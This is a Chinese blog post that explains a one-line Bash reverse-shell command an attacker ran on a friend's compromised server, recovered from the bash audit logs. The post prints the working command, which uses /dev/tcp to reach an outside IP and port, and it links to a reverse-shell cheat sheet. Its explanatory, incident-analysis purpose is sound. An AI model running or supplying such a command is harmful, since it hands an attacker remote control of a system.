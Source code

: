```yaml
---
layout: post
title: 单行反弹 Shell 命令的理解
description: "单行反弹 Shell 命令的理解"
category: Shell
avatarimg:
tags: [Security, Linux, Shell, Bash]
duoshuo: true
---
```


有朋友说一台服务器被黑客入侵了。安全没做好！！！  
查看 bash 审计日志，发现黑客执行的相关命令，其中有一条反弹 Shell 的命令，在被黑的服务器上执行如下：

> 
bash -i >& /dev/tcp/173.208.201.162/9083 0>&1 &

执行后的效果就是黑客在自己的机器上利用 nc 等工具监听 9083 端口，不仅可以发送命令到被黑服务器上，命令的输出也会回显到黑客的机器上，  
整个表现就是被黑服务器的 Shell 反弹到黑客机器上了，和 SSH 远程登录一台服务器执行命令一样。

理解上面的单行命令，费了好半天，看来对 Bash Shell 的掌握还不够啊。

- 首先， bash -i 开启了 Shell 的交互模式，这样反弹 Shell 后，黑客可以和它交互；
- 然后是这段： `>& /dev/tcp/173.208.201.162/9083`，表示 bash 打开到远程目标 IP 端口的 TCP 连接，并将标准出重定向到远程目标 IP 端口上；
- 再然后是这段：0>&1，表示标准输入（这个标准输入是在远端执行的）也重定向到远程目标 IP 端口上？（PS: 这里我不是很好理解，如果高手看到请指点一下。）
- 最后的 & 表示后台运行，这样就相当于常驻后台的后门了。

我不得不感叹，第一个想出这种用法的人真是变态啊，算是奇技淫巧，对 Bbash Shell 和 TCP 的掌握很深入了。

# Ref
[交互式shell和非交互式shell](http://blog.csdn.net/trochiluses/article/details/13767669)   
[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  
[REVERSE SHELL WITH BASH](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)  
[What is the difference between &> and >& in bash?](http://superuser.com/questions/335396/what-is-the-difference-between-and-in-bash)
